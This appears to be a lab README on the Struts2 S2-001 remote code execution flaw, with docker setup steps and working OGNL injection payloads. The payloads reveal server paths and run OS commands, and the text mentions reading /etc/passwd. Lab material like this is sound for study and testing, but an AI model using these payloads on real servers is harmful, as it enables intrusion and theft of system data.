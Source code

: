 # S2-001 Remote Code Execution Vulnerability

[中文版本(Chinese version)](README.zh-cn.md)

## Reference link

[http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html](http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html)

> The vulnerability is that when the user submits the form data and the validation fails, the server parses the parameter values previously submitted by the user with the OGNL expression `%{value}` and repopulates the corresponding form data.For example, in the registration or login page. When submit fail, server will generally return the previously submitted data by default. Since the server uses `%{value}` to execute an OGNL expression parsing on the submitted data, it can send payload directly to execute command.

## Environment setup

Run the following commands to setup

```
docker-compose build
docker-compose up -d
```

## POC && EXP

Get the tomcat path:

```
%{"tomcatBinDir{"+@java.lang.System@getProperty("user.dir")+"}"}
```

Get the web site real path:

```
%{#req=@org.apache.struts2.ServletActionContext@getRequest(),#response=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#response.println(#req.getRealPath('/')),#response.flush(),#response.close()}
```

Execute command (command with parameter:`new java.lang.String[]{"cat","/etc/passwd"}`):

```
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"pwd"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```

![](1.jpeg)